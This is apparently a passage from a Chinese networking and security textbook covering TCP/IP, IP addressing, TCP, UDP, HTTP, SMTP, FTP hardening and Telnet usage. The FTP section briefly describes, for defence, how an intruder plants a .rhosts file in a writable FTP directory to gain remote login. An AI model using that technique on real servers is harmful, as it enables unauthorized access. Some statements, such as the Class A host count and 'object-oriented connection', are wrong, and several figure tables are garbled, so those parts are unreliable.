- 3. 传输层（TCP 或 UDP）：TCP 是面向连接的、可靠的，而 UDP 正好相反。TCP 一般用于传输硬件可靠性差的广域网，而 UDP 用于硬件可靠性好的局域网。
- 4. 应用层（FTP、Telnet 和 HTTP）：向用户提供一组常用的应用程序，如 FTP 和 SMTP 应用程序等。严格说来，TCP/IP 网际协议只包含如图 1-3 所示下面 3 层，应用程序不能算作 TCP/IP 的一部分，事实上用户完全可以在传输层上建立自己的应用程序。

在 TCP/IP 中，数据包的特点是一层套一层的，每一个协议层用特殊的连接围绕上一层的数据包，像洋葱层一样。在每一层，数据包分为报头和本体：报头包括与该层相关的控制信息，而本体是从上一层传下来的数据。每一层把上一层的数据作为本体，并且加上本层适当的报头控制信息，然后再交给下一层处理。

#### 3）以太层数据帧结构

因为以太网是一种极为常用的网络，下面介绍一下以太网数据包的组成。以太层数据包由两部分组成：以太报头和以太本体，本体一般是 IP 数据包，但也可能是 ARP（Address Resolution Protocol，地址解析协议）和 RARP（Reverse Address Resolution Protocol，逆向地址解析协议）请求/回答包。报头包括三个部分：目标地址、源地址和数据帧类型（是 IP 报文还是 ARP 请求/回答报文，由它来决定）。

#### 4）网络接口

每一个要连接到网络上的设备必须有一个网络接口，该网络接口必须与网络运行的媒体相一致，如令牌环的网卡不可能连接到一个同轴电缆网络。

下面是一些常用的媒体类型：
光导纤维、双绞线电缆、以太网（RG-8U 同轴电缆）、Thinnet（RG-58U 同轴电缆）、令牌环。

大部分网络接口有一个硬件地址，如以太网的硬件地址，也叫 MAC（Media Access Control，媒体访问控制）地址。是一个 48 位的十六进制数，形如 0:0:C0:6f:2d:40。而且每一个接口都要有一个 IP 地址，IP 地址和硬件地址是相对应的，很多情况下可能是一一对应的。Ifconfig 是一个查看和配置接口的工具，一般在支持网络的操作系统中都含有这个命令，如 Windows 95、Windows NT 和 UNIX。大家可以试试从而对接口有一个感性的认识。另一个有用的命令是 netstat。

### IP 协议

IP 协议是位于 ISO 七层协议中网络层的协议，它实现了 Internet 中自动路由的功能，即寻径的功能。IP 协议可以被看成一辆辆的卡车，而 TCP 或 UDP 则是卡车上面的货物，只要告诉卡车司机的目的地，具体他怎样去，选择什么路就不需要关心了，可以说 IP 是 TCP 的载体。那么 IP 怎样实现了路由的功能呢？这正是下面所要讲到的。

#### 1）IP 地址

Internet 上每一台计算机都要至少拥有一个 IP 地址。一般来说，一台机器的 IP 地址数和网络接口数是相同的，但有些情况下，一个接口可能会有两个或多个 IP 地址，这些情况是很少的。

我们生活在地球上，要有我们的地址，这样其他人才可以和我们通信，同样在 Internet 上，计算机也需要地址，即 IP 地址。

IP 地址的主要类型有五种：A、B、C、D 和 E，一般 A、B、C 类地址更为常用，每类地址都是由 32 位或 4 个字节组成。

- 1. A 类地址：在 A 类地址中第一个 8 位字节表示网络部分，其余 3 个 8 位字节用来标识主机，如图 4 所示。A 类 IP 地址的第一段数字范围为 1 ~ 127，每个 A 类地址可连接 163877064 台主机，Internet 上有 126 个 A 类地址。


## 2. B 类地址

在 B 类地址中，两个 8 位字节表示网络部分，其余两个 8 位字节表示主机，如图 5 所示。B 类 IP 地址的第一段数字范围为 128 ~ 191，每个 B 类地址可连接 65534 台主机，Internet 上有 16384 个 B 类地址。

| | ( | NET ID | HOST ID |
|---|---|---|---|
| 14bits | | 16bits | |

图 5 B 类地址

## 3. C 类地址

C 类地址使用 3 个 8 位字节作为网络部分，只有一个 8 位字节留给主机，如图 6 所示。C 类 IP 地址的第一段数字范围为 192 ~ 223，每个 C 类地址可连接 254 台主机，Internet 上有 2097152 个 C 类地址。

| 1 | 1 | ( | NET ID | HOST ID |
|---|---|---|---|---|
| 21bits | | | 8 bits | |

图 6 C 类地址

- 4. D 类地址用作多目的地信息的传输，作为备用，D 类 IP 地址的第一段数字范围为 224 ~ 239。
- 5. E 类地址保留，仅作为 Internet 的实验和开发之用，E 类 IP 地址的第一段数字范围为 240 ~ 254。

从上面三个图中，可以发现 A 类或 B 类网络拥有数以千计或数以百万计的主机，这是不切合实际的，因为不可能有任何一个网，其主机数会有这么多。为了解决这个问题，人们发明子网（Subnet）的概念，就是把 A、B 类地址进一步地细化，如图 7 所示。

| | ( | NET ID | SUBNET ID | HOST ID |
|---|---|---|---|---|
| 14bits | | 8 bits | 8 bits | |

图 7 子网化一个 B 类地址

这就有了一个新的问题，根据地址类型可以确定地址中的 NET ID 和 HOST ID 部分，但 SUBNET ID 怎么和 HOST ID 分离开来呢？这时需要用到了网掩码。子网掩码是一个 32 位的值，其中网络 ID 和子网 ID 部分全部被置 1，主机的部分被置零。当知道了子网掩码和一个主机的 IP 地址，如果想得到网络号和子网号，可以把子网掩码和 IP 地址进行位运算中的 “AND” 运算，这样就去掉了主机号，剩下的网络号和子网号可以通过地址类型来进行分离。例如：

```
146.64.127.7 .AND 255.255.255.0 (B 类地址)
```

得到 146.64.127.0

根据地址类型，可以得到子网号为 127。

大家可能要问为什么需要进行地址分类和子网划分，这实际上是为了减小路由表，从而提高寻径的效率。

### 2) IP 地址和硬件地址

为什么需要硬件地址和 IP 地址？

首先，IP 地址是用来在网络层上对不同的硬件地址类型进行统一，从而提供网络互连的可能性；而硬件地址在真正的数据传输中要用到。其次，IP 地址是网络层的概念；而硬件地址是数据链路层的概念。第三，在数据传输过程中，目标 IP 地址是不变的；而目标硬件地址随着所经过的网段不同而不断变化。

### 3）IP 报头

IP 数据包符合典型数据分组的一般格式，分为报头和数据区两部分。

## TCP 协议

TCP 协议是一个传输性的协议，它向下屏蔽了 IP 协议不可靠传输的特性，向上提供一个可靠的点到点的传输。TCP 协议一般用于广域网，如 Internet，这是由广域网的特点所决定的。一般来说，广域网的可靠性差、延迟长，TCP 就是用来屏蔽广域网的缺点，向用户提供一种可靠传输的服务。

### （1）TCP 的包头

源端口一般是一个随机的端口号，目标端口则不是随机的，要根据客户主机所请求的服务决定，如 HTTP 服务的端口号是 80，Telnet 的端口号是 23 等等。一般情况下，源端口号是个大于 1023 小于 65535 的数，目标端口是小于等于 1023 的数。

### （2）TCP 连接的建立

TCP 连接的建立使用三次握手协议，在此过程中双方要互报自己的初始序号，这样就可以保证包的接收顺序和发送顺序相一致。TCP 连接的建立过程如图 8 所示。



图 8 三次握手过程

一般来说，除了第一个包，后面的包的 ACK 位被置 1，所以查看 ACK 位便可确定此包是否用来发出连接请求。

主机 1 首先发出一个连接请求包，即发生主动连接，在包中包含有主机 1 要发送的包的初始序列号，本例中为 14157。主机 2 收到这个请求包后，记录下主机 1 的初始序列号，这样主机 2 便可以推算出下一个它应从主机 1 收到的包的序列号。当然在建立连接后的数据传输中，每个数据包中都要包含序列号。为了建立可靠的连接，TCP 中规定在任何一方收到对方的数据包后，都要向对方作出应答，这样对方就知道数据已经安全到达了。否则，发送方在一段时间后还未接到对方应答，就会认为包丢失了，会向对方重发一个相同的数据包。

TCP 的连接是一种全双工的连接，即数据可以沿双向传送，所以主机 2 也要发出一个被动的连接请求，这就是为什么在过程 2 的数据包中含有 SYN 标志以及初始序号 78826 的原因。数据包和应答包大部分情况下是合二为一的，因为这样可以减少包流量，所以在主机 2 发向主机 1 的数据包中，ACK 位被置 1。

在过程 3 中，主机 1 对主机 2 的连接请求作出应答。在这里，因为主机 1 无数据包可发，所以一个单独的应答包被发向主机 2。

如上所述，就是 TCP 所谓的面向对象连接，这种方式可以确保在真正的数据发送前，双方已经作好了充分的准备。和 TCP 相反，UDP 提供的是一种无连接的服务，若有数据可发，主机便会立即发送出去，不管对方单机是否已经关门或出了故障，接收方在收到包后也不会给发送方一个应答，所以发送方根本无法知道数据包是否已经安全到达了目的地。

## UDP 协议

UDP 协议提供了一种传输不可靠的服务，相对于 TCP，它的实现极为简单。它主要用于可靠性高的局域网当中，建立在 UDP 协议上的应用程序有 NFS、SNMP 和 DNS 等等。

UDP 协议的包头如图 9 所示，可以看到和 TCP 包头一样，UDP 的包头也含有源端口和目标端口，但没有 ACK 等各种标志位。同样，在包过滤当中，会用到源端口和目标端口。根据端口可以在一定程度上确定服务类型。

| UDP 源端口 | UDP 目标端口 |
|---|---|
| UDP的报头长度 | UDP 的校验和 |
| 数据区 | |

图 9 UDP 的报文格式

## 3. 超文本传输协议 (HTTP)

HTTP 的英文全称是 Hypertext Transfer Protocol，中文译为“超文本传输协议”。HTTP 是当前运行最多的协议，它本身是安全的，但它提供的相关服务影响了它的安全性。

HTTP 是应用级的协议。主要用于分布式协作的超媒体信息系统。HTTP 协议是通用的、无状态的，其系统建设与传输的数据无关。HTTP 也是面向对象的协议，可用于各种任务，包括（并不局限于）域名服务、分布式对象管理、请求方法的扩展和命令等等。

Web 帐户这种快速访问、开放以及无状态的特性，使得控制和保护变得非常困难。

在 Internet 上，HTTP 通信往往发生在 TCP / IP 连接之上，其缺省端口为 80，也可用其他端口。这并不会妨碍 HTTP 在其他协议之上的实现，事实上，HTTP 协议规范并没有限制其底层实现。当浏览器收到其不理解的数据类型时，会依靠其他附加应用程序来将其转换成可以理解的格式。这些应用程序一般叫观察器，它们的安全性非常重要，因为 HTTP 协议并不能阻止这类观察器执行危险命令。

对于代理服务和网关应特别小心，转发 HTTP 不能理解其格式的请求时更要谨慎。HTTP 的版本决定协议的功能，代理和网关不应发送其版本比自己版本还高的信息。如果收到高版本请求，网关或代理均应将其版本降下来，以错误信息响应，或是转到另一处理过程中去。

一些主要的 HTTP 客户程序，如 Purveyor 和 Netscape Navigator 支持 SOCKS 及透明代理等各种代理机制。

另外，无论将服务器放于网络的里面还是外面，都应考虑防火墙；HTTP 的开放性具有很大的风险，况且还要担心观察器和小的应用程序。

在选择防火墙时，要考虑 HTTP 代理服务的功能，这对于保护浏览器是很有用的。一些防火墙和工具，比如 TISFWTK 就提供了完全的 HTTP 客户代理。

## 4. 简单邮件传输协议 (SMTP)

SMTP 即 Simple Message Transfer Protocol，中文译为“简单邮件传输协议”。SMTP 是 TCP / IP 协议族定义的机器间交换邮件的标准，SMTP 只是关注底层邮件传递系统如何将报文从一个机器传到另一个机器，它没有定义邮件如何存储或以多快速度传送。

SMTP 客户机和服务器间的通信由可读的 ASCII 文本组成。SMTP 定义了命令格式，使人们容易看到客户机与服务器间的交互情况。最初，客户机建立一条到服务器的可靠数据流连接，并等待服务器发送一个“220 READY FOR MAIL”报文。收到 220 报文后，客户机发送一个 HELLO 命令，服务器通过标识自己做响应。一旦建立通信，发送者可传送一个或多个邮件报文、终止连接，或请求服务器交换发送者和接收者的身份以使报文能反向流动。接收者必须确认每个报文，也可异常终止整个连接或当前的报文传送。

邮件事务由 MAIL 命令开始，它给出发送者标识符和一个包括接收差错报告地址的 FROM 字段。接收者准备其接收新邮件报文的数据结构，并通过发送响应 250 回答 MAIL 命令表示正常。完全的响应由文本 250 组成。与使用其他应用协议一样，程序只读缩写命令和每行开头的 3 个数字，其余文本用于调试邮件软件。

成功执行 MAIL 命令后，发送者发出标识邮件报文接收者的一系列 RCPT 命令。接收者必须确认每个 RCPT 命令，这可以通过发送 250 或发送差错报文 550 来完成。确认所有的 RCPT 命令后，发送者发出一个 DATA 命令。一个 DATA 命令告诉接收者发送者已经传送了一个完整的邮件报文。接收者用报文 354 响应，并指明用于终止邮件报文的字符序列。终止序列由 5 个字符组成：回车、换行、点、回车和换行。

一旦客户机可发出 TURN 命令将连接反向，然后接收者发响应 250，并假定已控制了连接。随着任务反过来，原服务器端将发回任何等待的邮件报文。控制交互的任一端可选择终止会话，只要发出一个 QUIT 命令即可。另一端用命令 221 响应，意味着同意终止连接。

如果一个用户移动了，服务器可能知道用户新的邮箱地址。SMTP 支持服务器通知客户机新的地址，以便客户机以后使用它。当通知客户机新的地址时，服务器可能选择转发这个引发报文的邮件，或可能请求客户机负责转发。

## 5. 文件传输协议 (FTP)

FTP 的英文全称是 File Transfer Protocol，中文指“文件传输协议”。是为进行文件共享而设计的因特网标准协议。FTP 服务允许客户将文件从一个机器复制到另一个机器，它类似于 NFS 的方式，不过用于远程网络，客户端一般也需验证。

当提供自己的 FTP 服务器的时候，可使用非匿名服务器进行口令验证，但这只能供少数一些人使用（如一个小部门的人进行文件共享）。通常的情况下使用匿名 FTP，使没有得到全部授权访问 FTP 服务器的远程用户，可以传输能够共享的文件。如果运行 FTP 服务器，用户就可能在未经允许登录的情况下，取得存放在系统中一个分离的公共区域中的文件，并可能取得系统中的任何东西。站点上的匿名 FTP 区可能存有机构的文件档案、软件、图片以及其他类型的信息，这些信息是人们需要从用户那里得到的，或用户希望与他们共享的。

使用匿名 FTP，用户可以用“匿名”用户名登录 FTP 服务器。通常情况下，要求用户提供完整的 E-mail 地址做为响应。然而在大多数站点上，这个要求不是强制性的，只要它看起来像 E-mail 地址（如：它是否包含@符号），它不对口令做任何方式的校验。

要确保匿名 FTP 服务器只能存取允许存取的信息，不允许外人存取本机的其他资料，如个人资料等。

在 FTP 服务器处理匿名用户命令之前，许多 FTP 服务器执行 Chroot 命令进入匿名 FTP 区。然而，为了支持匿名 FTP 利用 FTP，FTP 服务器要访问所有文件，这就是说 FTP 服务器并不总是在 chroot 环境中运行。

为了解决这个问题，可以通过修改 inetd 的配置来代替直接启动 FTP 服务器，它执行 chroot（用类似于 chroot 的程序）然后再启动 FTP 服务器。一般情况下 FTP 只限于在匿名用户下访问，匿名用户有其正常的访问权。在启动 FTP 服务器前执行 chroot 意味着匿名用户也受到限制。如果 FTP 服务器上没有匿名用户，这就无关紧要了。

建立匿名 FTP 系统的具体技术依赖于操作系统使用的特定 FTP 管理程序（守护程序）。

匿名用户获取到不应见到的文件，通常是由于内部客户将文件放在匿名 FTP 区。

如果不希望外界阅读自己的文件，最好不给匿名的 FTP 提供文件。如果可能，就采用其他传输方式。否则，可使用改进的 FTP 服务器，如：wuarchive 服务器，它提供半匿名访问，这就要求匿名用户用一个附加口令来访问某些路径，也可以把文件放在没有阅读权，只有执行权的路径下。这样做是让人们知道传输文件的名字，但不能让他们看到文件内容。

无论用什么方法一定要让能往匿名 FTP 路径下存放文件的任何人都知道：不要把机密文件放在外人可读的路径下。实现它的简单方法是：阻止用户用匿名 FTP 路径写文件，并要求他们请系统管理员来提供某个文件。

FTP 有安全漏洞是人所共知的，而且现在的 FTP 正变得非常复杂和难以理解，功能也不断增强。比如，FTP 系统的一个主要安全漏洞是它可以被黑客骗取某个用户的权限，而黑客实际上是以公共帐户方式登录的。

FTP 服务器的目录权限是很重要的，黑客一旦侵入，其第一件事就是查看目录是否可写。如果可以，他便会把包含其名字和当前机器的 .rhosts 文件放到该目录下，由于该目录通常是 FTP 用户（FTPD）的主目录，于是一个可以进入系统的远程登录就大功告成了。

对于 FTP 的安全防范，应该注意以下两点：

- 1. FTP 服务器运行是否正确

应当定期检查 FTP 服务器运行是否正确，如果是 Windows NT 系统，可以在本机上使用 IP 回环（loopback）地址来检验：

```
ftp 127.0.0.1
```

本机检验与通过 Windows NT 和大部分 Unix 客户进行检验没什么区别，可以决定 FTP 服务器的目录、访问许可等是否正确。

- 2. FTP 服务器配置是否正确

根据 CIAC 的建议，在配置 FTP 服务器时应考虑下面的原则：

- （1）匿名 FTP 服务器中的文件和目录不应属于“ftp”，否则匿名用户就可以通过 Internet 远程修改、替换和删除它们。
- （2）不要将 /etc/passwd 文件的任何加密口令放到匿名 FTP 区“~ftp/etc/passwd”中，因为黑客可能取回这些加密口令并试图去破解。也不能对匿名用户设置任何可写文件的权限。即使有时候远程用户认为有这样的目录会觉得比较方便，但同时也可能被黑客用来保存非法文件，包括一些加密材料。

## 6. 远程登录标准 Telnet

### 1）什么是远程登录

Telnet 是 Telecommunication Network Protocol 的英文缩写，中文意思是：远程通信网络协议。它让你坐在自己的计算机前通过 Internet 网络登录到另一台远程计算机上，这台计算机可以在隔壁的房间里，也可以在地球的另一端。当你登录上远程计算机后，你的电脑就仿佛是远程计算机的一个终端，你就可以用自己的计算机直接操纵远程计算机，享受远程计算机本地终端同样的权利。你可在远程计算机启动一个交互式程序，可以检索远程计算机的某个数据库，可以利用远程计算机强大的运算能力对某个方程式求解。这种用 Telnet 方式将用户本地的计算机通过网络连通到远端的计算机上，将用户本地的计算机作为远程主机的一个终端，从而可以使用远程计算机的资源、执行远程计算机的程序就叫做远程登录。需要指出的是，进行远程登录，访问远程资源，必须得到远程计算机的授权，也就是需要作为远程计算机的用户，必须知道远程机器的“用户名”和“口令”。当利用该“用户名”和“口令”向远程计算机注册成功后，就可以在任何地方使用远程计算机了。

### 2）Telnet 的工作原理

与 Internet 信息服务一样，Telnet 采用客户/服务器模式。当你用 Telnet 登录进入远程计算机系统时，你事实上启动了两个程序，一个叫 Telnet 客户程序，它运行在你的本地机上；另一个叫 Telnet 服务器程序，它运行在你要登录的远程计算机上，本地用户只能通过 Telnet 客户程序进行远程访问。

远程登录时，用户通过本地计算机的终端或键盘跟客户程序打交道。用户输入的信息会通过 TCP 连接传送到远程计算机上，由服务器程序接收后，自动执行处理并将输出信息送给客户方。值得注意的是：两方计算机都必须支持 TCP / IP 协议。

本地机上的客户程序要完成如下功能：

- 1. 建立与服务器的 TCP 连接。
- 2. 从键盘上接收你输入的字符。
- 3. 把你输入的字符串变成标准格式并送给远程服务器。
- 4. 从远程服务器接收输出的信息。
- 5. 把该信息显示在你的屏幕上。

远程计算机的“服务”程序通常被称为“精灵”，它平时不声不响地候在远程计算机上，一接到你的请求，它马上活跃起来，并完成如下功能：

- 1. 通知你的计算机，远程计算机已经准备好了。
- 2. 等候你输入命令。
- 3. 对你的命令作出反应（如显示目录内容，或执行某个程序等）。
- 4. 把执行命令的结果送回给你的计算机。
- 5. 重新等候你的命令。

### 3）Telnet 的应用范围

Telnet 最基本的应用就是远程访问，从而共享远程系统的资源，让远程计算机资源为本地服务。但是随着 IT 产业的发展，计算机性能大幅度的提高，现在 Telnet 已经越用越少了。主要有如下三方面原因：

- 第一，个人计算机的性能越来越强，致使在别人的计算机中运行程序要求逐渐减弱。
- 第二，Telnet 服务器的安全性欠佳，因为它允许他人访问其操作系统和文件。
- 第三，Telnet 使用起来不是很容易，特别是对初学者。

但是 Telnet 仍然有很多优点，比如如果你的电脑中缺少什么功能，就可以利用 Telnet 连接到远程计算机上，利用远程计算机上的功能来完成你要做的工作，可以这么说，Internet 上所提供的所有服务，通过 Telnet 都可以使用。

不过 Telnet 的主要用途还是使用远程计算机上所拥有的信息资源，如果你的主要目的是在本地计算机与远程计算机之间传递文件，则使用 FTP 会有效得多，但是匿名 FTP 也需要首先经过远程登录才能进行文件传输。

虽然现在 Telnet 的应用已经大为减少，但是在当今 Internet 网络安全令人堪忧的年代，Telnet 被一些爱好 Hacker 技术的群体所喜爱，他们应用 Telnet 技术或者工具登录他人机器，进行入侵活动，因此我们很有必要了解 Telnet。

### 4）使用 Telnet 的条件

- 1. 客户程序和服务程序

远程主机必须运行 Telnet 服务程序，本地计算机也需运行 Telnet 客户程序。双方必须有 TCP/IP 协议。

- 2. 机器运行环境要求

服务程序要求运行在多用户、多进程的系统环境中；用户的本地计算机可以是单用户系统也可以是多用户系统。但双方计算机都必须支持 TCP/IP 协议。

- 3. 域名

为了与远程主机建立 Telnet 连接，必须知道要与之建立的远程计算机的 Internet 主机域名或 IP 地址。

## 4. 账号
要登录的远程主机必须有一个合法的账号。

## 5. 访问权限
为了网络安全和保护资源，许多网络管理员对每个账号都给予一定的访问权限，用户只能访问权限允许的相关资源。

## 5) Telnet 工具软件
远程登录的软件也有很多，具体而言，主要有：
- 1. Unix 环境：远程登录本身是从 UNIX 主机之间的远程访问发展而来的，因此 UNIX 操作系统中已经含有 Telnet 功能，用户仅需要使用 UNIX 的命令 Telnet 就可以使用该功能了。
- 2. Windows 环境：Windows 9X/NT 操作系统中也包含了 Telnet 功能，用户可以在操作系统的 DOS 窗口中直接敲入 Telnet 命令就可以使用远程登录功能。

此外，Windows 9x/NT 环境中的共享软件 Netterm 也是一个非常好的工具。

## 6) 利用 Windows9X 实现远程登录
Windows9X 的 Telnet 客户程序是属于 Windows9X 的命令行程序中的一种。在安装 Microsoft TCP/IP 时，Telnet 客户程序会被自动安装到系统上。

利用 Windows9X 的 Telnet 客户程序进行远程登录，步骤如下：
- 1. 确保已经联接到 Internet。
- 2. 选择“开始”菜单中的“运行”，运行“Command”命令，或者是选择“程序”菜单下的“MS-DOS 提示方式”，便可转换到命令提示符下。
- 3. 在命令提示符下，按下列两种方法中的任一种与 Telnet 联接。

一种方法是，输入“Telnet”命令并按回车，打开 Telnet 主窗口，在该窗口中选择“连接”下的“远程系统”；“主机名”中键入或选择要连接的远程系统名称；“端口”中键入或选择端口或服务；“终端类型”中，键入或选择主机使用 TermType 子协商时所使用的字符串；单击“连接”（图 10）。


图 10

另一种方法是，输入“Telnet”命令、空格以及相应的 Telnet 的主机地址（图 11）。如果主机提示你输入一个端口号，则可在主机地址后加上一个空格，再紧跟上相应的端口号。


图 11

然后，按回车键。
- 4. 与 Telnet 的远程主机联接成功后，计算机会提示你输入用户名和密码（图 12）。若联接的是一个 BBS、Archie、Gopher 等免费服务系统，则可以通过输入 BBS、Archie 或 Gopher 作为用户名，就可以进入远程主机系统（图 13）。


图 12


图 13

这样，Telnet 已经为你架起了通向远程主机的桥梁，现在你可以完全依照远程主机的命令行事了。

如果已经连接在某个主机系统上，要退出连接有两种方法：从连接菜单上选择断开连接；从连接菜单上选择退出。

## 7) WinNT/2000 下的 Telnet
确保已经联接到 Internet 上，然后选择“开始”菜单中的“运行”，执行“CMD”命令进入到命令提示符下，键入 `open hostname port #`，或者在“运行”中直接执行 `telnet hostname port #`。端口号是可选的，除非所需的端口号不是 Telnet 默认值的端口号。

hostname 参数也是可选的，如果没有提供主机名，Telnet 在启动时不会自动连接服务器。此时要退出 Telnet，键入：`quit`。

如何启动 Telnet 服务器：打开计算机管理，在控制台树中，单击“服务和应用程序”；“服务”，然后在详细信息窗格中，右键单击“Telnet”，然后单击“启动”（图 14）；或者打开命令提示符，键入 `net start tlntsvr`，然后按 Enter。


图 14

如何停止 Telnet 服务器：打开计算机管理，在控制台树中，单击“服务和应用程序”；“服务”，然后在详细信息窗格中，右键单击“Telnet”，然后单击“停止”；或者打开命令提示符，键入 `net stop tlntsvr`，然后按 Enter。

## 8) 如何获得 Telnet 的帮助
远程登录时，您只需知道几个 Telnet 的指令，大抵如何连线，如何中途执行本端指令（您自己主机这一端）、如何结束连线及万不得已时使用的中断连线等。Telnet 的使用并没有像 FTP 那样有很多独特的操作指令。

不论在 DOS 或 Unix 环境，Telnet 都是个非常容易的指令，您需要知道的只是一开始的连线动作，以及最后要退出对方系统时的操作程序。

Windows 下，要得到 Telnet 的帮助，只需要在提示符下，键入“？”或者“Help”指令，会出现（图 15）的内容。

在 Unix 下，您可以按 CTRL + ] 暂时回到 telnet 环境，这时您可以执行 telnet 本身的指令，会出现下面画面。



图 15
```text
telnet>         <-     符号求助
Commands may be abbreviated. Commands are
close close current connection
display display operating parameters
mode try to enter line - by - line or character - at - a - time mode
open connect to a site
quit exit telnet
send transmit special characters    'send    ' for more     set set operating parameters    'set    '
for more
status print status information
toggle toggle operating parameters    'toggle    ' for more
z suspend telnet
    print help information
telnet> status <- 查看目前连线状况
telnet> z <- 暂时回到本地的 shell，把连线作业放在背景
    ^C     interrupt.
    ^U     kill.
    ^\     quit.
    ^D     eof.
$  fg <-  将连线切回前台    回到 telnet
telnet> q <- 中断连线    不推荐使用
$
```
另外，从 telnet 回到连线，只需在 telnet> 提示符号下按键即可。其实，Telnet 本身非常容易操作及了解，当你进入这个世界时，你也会这样说的。

